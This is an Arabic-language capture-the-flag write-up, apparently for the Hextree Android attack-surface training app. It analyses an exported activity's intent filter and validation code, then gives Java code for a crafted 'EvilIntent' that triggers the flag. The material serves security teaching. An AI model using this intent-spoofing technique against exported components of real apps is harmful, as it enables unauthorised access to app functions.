 #### تحليل الكود

```xml
<activity
	android:name="io.hextree.attacksurface.activities.Flag3Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```

هنا الـ filter بيشيك على حاجتين:

- action name
- specific data / content -> url اللي هو https protocol

```java
	Intent intent = getIntent();
	String action = intent.getAction();
	if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
           return;
	    }
	this.f.addTag(action);
	Uri data = intent.getData();
	if (data == null || !data.toString().equals("https://app.hextree.io/map/android")) {
           return;
	    }
	this.f.addTag(data);
    success(this);
```

هيتستقبل intent والـ action بتتشيك وبعدين الـ data بتتحفظ في متغير نوع Uri وبعدين تتشيك بعد ما تتحول لـ string ولو زي بعض، الـ condition هيتخطى وsuccess هتتنادى.

#### الحل

من تحليلنا:

- package= **"io.hextree.attacksurface"**
- Intent action: `"io.hextree.action.GIVE_FLAG"`
- data : "https://app.hextree.io/map/android"
- class name : **io.hextree.attacksurface.activities.Flag3Activity**

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag3Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
EvilIntent.setData(Uri.parse("https://app.hextree.io/map/android"));
startActivity(EvilIntent);  
```
